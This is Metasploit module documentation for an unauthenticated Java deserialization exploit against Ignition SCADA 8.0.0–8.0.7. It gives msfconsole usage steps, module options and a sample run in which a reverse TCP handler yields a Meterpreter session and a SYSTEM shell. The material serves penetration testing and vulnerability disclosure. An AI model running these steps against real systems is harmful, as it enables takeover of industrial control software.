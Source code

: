 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product, 
versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as 
SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro + 
Radek Domanski).

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable.

## Verification Steps

1. Install application
2. Start msfconsole 
3. Do: `use exploit/multi/scada/inductive_ignition_rce`
4. Do: `set rhost <TARGET_IP>`
5. Do: `set lhost <YOUR_IP>`
6. Do: `run`
7. You will get a SYSTEM or root shell

## Options

```
Module options (exploit/multi/scada/inductive_ignition_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```

## Scenarios
```
msf5 exploit(multi/scada/inductive_ignition_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/scada/inductive_ignition_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf5 exploit(multi/scada/inductive_ignition_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf5 exploit(multi/scada/inductive_ignition_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

